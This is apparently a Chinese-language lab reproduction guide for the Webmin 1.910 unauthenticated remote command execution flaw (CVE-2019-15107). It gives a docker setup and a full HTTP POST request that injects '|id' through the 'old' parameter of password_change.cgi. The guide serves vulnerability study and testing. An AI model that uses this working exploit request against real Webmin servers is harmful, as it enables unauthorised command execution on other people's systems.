

Webmin 远程命令执行漏洞（CVE-2019-15107）¶
Webmin是一个用于管理类Unix系统的管理配置工具，具有Web页面。在其找回密码页面中，存在一处无需权限的命令注入漏洞，通过这个漏洞攻击者即可以执行任意系统命令。
参考链接：
- https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html
- https://www.exploit-db.com/exploits/47230
- https://blog.firosolutions.com/exploits/webmin/
环境搭建¶
执行如下命令，启动webmin 1.910：
docker compose up -d
执行完成后，访问https://your-ip:10000，忽略证书后即可看到webmin的登录页面。
漏洞复现¶
参考链接中的数据包是不对的，经过阅读代码可知，只有在发送的user参数的值不是已知Linux用户的情况下（而参考链接中是user=root），才会进入到修改/etc/shadow的地方，触发命令注入漏洞。
发送如下数据包，即可执行命令id：
POST /password_change.cgi HTTP/1.1
Host: your-ip:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
